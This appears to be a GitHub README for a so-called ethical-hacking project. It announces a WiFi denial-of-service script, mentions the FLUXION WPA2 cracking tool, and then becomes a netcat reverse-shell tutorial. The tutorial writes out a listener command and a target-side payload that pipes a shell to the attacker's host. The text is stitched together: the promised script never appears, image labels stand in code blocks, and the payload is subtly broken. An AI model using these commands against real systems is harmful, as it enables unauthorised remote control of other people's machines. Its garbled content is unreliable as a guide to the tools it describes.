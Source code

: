 # Python-Ehtical-Hacking

These a simple Python script, runs a denial service attack or DoS attack against a WiFi network.

You need to have these two tools

## 1) Kali Linux OS –
Kali Linux is one of the best operating system based on UNIX having more than 1000s of pre-installed tools based on network/forensics/webapp etc. Kali Linux is an open source OS having monolithic type kernel and available in both 32-bit and 64-bit architecture.

There are so many automated cracking tools are there to crack into wi-fi networks like Gerix Wi-Fi Cracker and Fern Wi-Fi Cracker but all are limited to only WEP and WPA based networks but the tool which we’ll discuss is FLUXION is developed in python and usually used to crack WPA2-PSK based networks. DentaFlux is the developer who developed this awesome wi-fi cracking tool.

## 2) NetCat
Netcat is a command in Linux which is used to perform port listening, port redirection, port checking, or even network testing. Netcat is also called a swiss army knife of networking tools. This command is also used to create a reverse shell. Before getting in depth of reverse shell one must be aware of what exactly is netcat tool. To know more, you can go through the article netcat command.

Generally, in order to hack into a system, an attacker tries to gain shell access to execute the malicious payload commands. The gained shell is called the reverse shell which could be used by an attacker as a root user and the attacker could do anything out of it. During the whole process, the attacker’s machine acts as a server that waits for an incoming connection, and that connection comes along with a shell.

Creating Reverse Shells
  ### 1. Setup a listener: The very first step is to set up a listener on the attacker’s machine in order to act as a server and to listen to the incoming connections. Use the following command to start listening.
```shell
nc –nlvp 5555
```
Replace the port number 5555 with the port you want to receive the connection on.
```shell
netcat-listen
```


This will start the listener on the port 5555.

  ### 2. Receive connection along with a shell from target: Now as we have started listening, it’s time to execute a basic payload at the target so that we could get a reverse shell. Use the following command to send the request to the attacker.
```shell
/bin/sh | nc 127.0.0.1 5555
```
Replace 127.0.0.1 with the host IP of the attacker and 5555 with the attacker’s port.
```shell
netcat-connect
```
This will give a reverse shell to the attacker which attacker could use to execute any command.

  ### 3. Executing a command through shell: Now if we enter any command at the receiver’s terminal the output would be displayed on the attacker’s terminal.
```shell
netcat-live-reverse-shell
```
